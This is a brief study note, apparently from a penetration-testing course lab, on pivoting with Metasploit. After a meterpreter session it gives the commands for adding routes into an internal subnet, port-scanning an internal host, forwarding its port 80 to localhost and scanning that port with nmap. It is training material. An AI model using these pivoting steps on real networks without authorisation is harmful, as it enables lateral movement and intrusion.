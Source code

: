 # Pivoting

---

##### Metasploit

once we get a meterpreter session, we can utilize commands.

run autoroute -s <target_ip><target_prefix> 10.0.29.0/20 ---> creates a route
which gives us access to other ip adresses within the network.

use auxiliary/scanner/portscan/tcp
set RHOSTS demo2.ine.local
set PORTS 1-100
exploit

sessions -i 1

portfwd add -l 1234 -p 80 -r <IP Address of demo2.ine.local>
portfwd list

nmap -sCV -p 1234 localhost

